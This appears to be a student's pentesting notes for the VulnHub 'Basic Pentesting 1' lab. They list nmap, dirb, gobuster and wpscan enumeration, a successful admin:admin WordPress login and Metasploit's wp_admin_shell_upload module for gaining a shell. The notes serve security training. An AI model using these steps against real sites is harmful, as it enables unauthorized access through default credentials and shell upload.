 https://www.vulnhub.com/entry/basic-pentesting-1,216/

Difficulty: EASY


---

**S1REN's Template Reference**

\[OS]: Linux 3.2 - 4.14
\[Web-Technology]: 
\[Hostname]:  
\[IP]:  192.168.100.6 
\[USERS]:   
\[CREDENTIALS]:  
http://vtcsec/secret/wp-login.php - admin:admin

---
\[To-Try LIST]:  

21 ftp     ProFTPD 1.3.3c:
- anonynmous:anonymous failed
- searchsploit
![[Pasted image 20250819112711.png]]

80 http    Apache httpd 2.4.18
/secret - WP Site 
/server-status

Later:
SSH 22 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2


---
\[NMAP RESULTS]:  
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).


--- 

\[Web Services Enumeration]:   

-  http://192.168.100.6 
- View Page Source - reveals nothing
- No Robots.txt

dirb $URL /usr/share/wordlists/dirb/common.txt  
Found 13

gobuster dir -u $URL -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/secret
/server-status: You don't have permission to access this resource.

wpscan --url $URL/secret --disable-tls-checks --enumerate p --enumerate t --enumerate u
XML-RPC seems to be enabled: http://192.168.100.6/secret/xmlrpc.php
WordPress readme found: http://192.168.100.6/secret/readme.html
The external WP-Cron seems to be enabled: http://192.168.100.6/secret/wp-cron.php
WordPress version 4.9 identified (Insecure, released on 2017-11-16).
User(s) Identified:admin 

admin is default WP username - try default password "admin" - - Otherwise brute force??
- success


Many Links - don't resolve: can't find the server at vtccsec
Add vtcsec to /etc/hosts
Now it loads properly:
login page available: http://vtcsec/secret/wp-login.php

wpscan - http://vtcsec/secret/wp-login.php




---


\[OTHER / PRIVILEGE-ESCALATION]:   
```
msfconsole
search wp_admin
use exploit/unix/webapp/wp_admin_shell_upload
```


--- 
Take Away Concepts: 



HOTKEYS! 
Background: Black 
Foreground (important elements): Red 
Background-Color: Select Text > Shift + Alt + B + ENTER 
Foreground Color: Select Text > Shift + Alt + F + ENTER 
Move quickly with: Function key + left and right arrows 
Cntrl + left and right arrows 
Cntrl + Shift (select text) (edited)
